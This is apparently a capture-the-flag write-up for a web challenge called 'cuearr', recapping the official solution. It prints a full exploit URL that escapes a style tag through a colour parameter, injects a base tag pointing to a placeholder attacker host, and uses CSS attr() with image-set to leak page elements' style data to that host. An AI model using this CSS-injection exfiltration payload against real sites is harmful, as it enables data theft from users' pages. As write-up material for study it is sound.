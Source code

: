 # cuearr

## Resource

`app.js`  
`bot.js`  
`DockerFile`

## Author

strellic

## Solution

> I didn't solve it during CTF. This is a recap by the offical solution  
> `http://localhost:3000/qr?custom=webkitTextSecurity:circle&bg=%3C/style%3E%3Cbase/href=//0xHEX_IP%3E&white=%3Cstyle%3E.black{--x:attr(style);/*&black=*/mask:image-set(var(--x))}`

Basically use only CSS injection to leak `div` elements' style and class name. The exploit is based on the color input can escape from `style` tag, which enable we add arbitaray HTML tag(but there are CSP rules).  
The key things are getting style properties by `--x:attr(style)`(set `x` equal to style of element), `mask:image-set(var(--x))}` to send request to our website(backgounrd image key may also works), and add CSS like `webkitTextSecurity:circle` to make origin style became valid URL(bypass URL protocol detection).  
If we use origin style directly, there will be error when we send request like

```log
Access to image at 'grid-area: 8 / 44;' from origin 'http://localhost:3000' has been blocked by CORS policy: Cross origin requests are only supported for protocol schemes: chrome, chrome-extension, chrome-untrusted, data, http, https, isolated-app.
```

![URL parser](image.png)

Because the URL parser will parser `grid-area` as protocol and will not add URL from `base` tag in front. So add any custom CSS key in front that has `-`(non alphabet character/non valid protocol token) will works.  
e.g. make it `-webkit-text-security: circle; grid-area: 8 / 38;` by add `webkit` property in front in CSS
